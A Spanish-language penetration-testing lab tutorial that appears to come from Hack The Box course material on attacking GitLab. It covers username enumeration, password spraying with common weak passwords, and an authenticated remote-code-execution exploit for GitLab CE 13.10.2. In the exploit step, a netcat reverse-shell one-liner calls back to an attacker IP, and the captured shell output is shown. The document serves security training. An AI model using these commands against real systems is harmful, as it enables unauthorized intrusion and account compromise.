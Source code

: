 # Attacking GitLab

Como vimos en la sección anterior, incluso el acceso no autenticado a una instancia de GitLab podría conducir a un compromiso de datos confidenciales. Si pudiéramos obtener acceso como un usuario o administrador de la empresa válido, podríamos descubrir suficientes datos para comprometer completamente a la organización de alguna manera. Gitlab tiene[553 CVES](https://www.cvedetails.com/vulnerability-list/vendor_id-13074/Gitlab.html)reportado a partir de septiembre de 2021. Si bien no todos son explotables, ha habido varios severos a lo largo de los años que podrían conducir a la ejecución de código remoto.

---

# **Enumeración del nombre de usuario**

Aunque no se considera una vulnerabilidad por Gitlab como se ve en su[Hackerone](https://hackerone.com/gitlab?type=team)Página ("La enumeración del usuario y del proyecto/divulgación de ruta a menos que se pueda demostrar un impacto adicional"), todavía es algo que vale la pena verificar, ya que podría dar lugar al acceso si los usuarios seleccionan contraseñas débiles. Podemos hacer esto manualmente, por supuesto, pero los guiones hacen que nuestro trabajo sea mucho más rápido. Podemos escribir uno nosotros mismos en Bash o Python o usar[Éste](https://www.exploit-db.com/exploits/49821)para enumerar una lista de usuarios válidos. Se puede encontrar la versión python3 de esta misma herramienta[aquí](https://github.com/dpgg101/GitLabUserEnum). Al igual que con cualquier tipo de ataque de pulverización de contraseña, debemos tener en cuenta el bloqueo de la cuenta y otros tipos de interrupciones. Los valores predeterminados de GitLab se establecen en 10 intentos fallidos que dan como resultado un desbloqueo automático después de 10 minutos. Esto se puede ver[aquí](https://gitlab.com/gitlab-org/gitlab-ce/blob/master/config/initializers/8_devise.rb). Esto se puede cambiar, pero Gitlab tendría que ser compilado por la fuente. En este momento, no hay forma de cambiar esta configuración desde la interfaz de usuario de administración, pero un administrador puede modificar la longitud mínima de contraseña, lo que podría ayudar con los usuarios a elegir contraseñas cortas y comunes, pero no mitigarán por completo el riesgo de ataques de contraseña.

Atacando a Gitlab

```
# Number of authentication tries before locking an account if lock_strategy# is failed attempts.config.maximum_attempts = 10

# Time interval to unlock the account if :time is enabled as unlock_strategy.config.unlock_in = 10.minutes

```

Descargando el script y ejecutarlo contra la instancia de GitLab de destino, vemos que hay dos nombres de usuario válidos,`root`(la cuenta de administración incorporada) y`bob`. Si retiramos con éxito una gran lista de usuarios, podríamos intentar un ataque de pulverización de contraseña controlada con contraseñas débiles y comunes como`Welcome1`o`Password123`, etc., o intente reutilizar las credenciales recopiladas de otras fuentes, como los volcados de contraseña de las infracciones de datos públicos.

Atacando a Gitlab

```
xnoxos@htb[/htb]$ ./gitlab_userenum.sh --url http://gitlab.inlanefreight.local:8081/ --userlist users.txt~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  			             GitLab User Enumeration Script
   	    			             Version 1.0

Description: It prints out the usernames that exist in your victim's GitLab CE instance

Disclaimer: Do not run this script against GitLab.com! Also keep in mind that this PoC is meant only
for educational purpose and ethical use. Running it against systems that you do not own or have the
right permission is totally on your own risk.

Author: @4DoniiS [https://github.com/4D0niiS]
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

LOOP
200
[+] The username root exists!
LOOP
302
LOOP
302
LOOP
200
[+] The username bob exists!
LOOP
302

```

---

# **Ejecución de código remoto autenticado**

Las vulnerabilidades de ejecución del código remoto generalmente se consideran la "crema del cultivo", ya que el acceso al servidor subyacente probablemente nos otorgará acceso a todos los datos que reside en él (aunque es posible que debamos escalar los privilegios primero) y puede servir como un punto de apoyo en la red para que podamos lanzar más ataques contra otros sistemas y potencialmente resultar en una compromiso de red completa. GitLab Community Edition versión 13.10.2 y Lower sufrió una ejecución de código remoto autenticado[vulnerabilidad](https://hackerone.com/reports/1154542)Debido a un problema con los metadatos de manejo de ExifTool en archivos de imagen cargados. Este problema fue solucionado por Gitlab con bastante rapidez, pero algunas compañías aún pueden usar una versión vulnerable. Podemos usar esto[explotar](https://www.exploit-db.com/exploits/49951)Para lograr RCE.

Como esta es la ejecución de código remoto autenticado, primero necesitamos un nombre de usuario y contraseña válidos. En algunos casos, esto solo funcionaría si pudiéramos obtener credenciales válidas a través de OSINT o un ataque de adivinanzas de credencial. Sin embargo, si nos encontramos con una versión vulnerable de GitLab que permite el autoinscripción, podemos registrarnos rápidamente para una cuenta y lograr el ataque.

Atacando a Gitlab

```
xnoxos@htb[/htb]$ python3 gitlab_13_10_2_rce.py -t http://gitlab.inlanefreight.local:8081 -u mrb3n -p password1 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.15 8443 >/tmp/f '[1] Authenticating
Successfully Authenticated
[2] Creating Payload
[3] Creating Snippet and Uploading
[+] RCE Triggered !!

```

Y obtenemos un caparazón casi al instante.

Atacando a Gitlab

```
xnoxos@htb[/htb]$ nc -lnvp 8443listening on [any] 8443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.88] 60054

git@app04:~/gitlab-workhorse$ idid
uid=996(git) gid=997(git) groups=997(git)

git@app04:~/gitlab-workhorse$ lsls
VERSION
config.toml
flag_gitlab.txt
sockets
```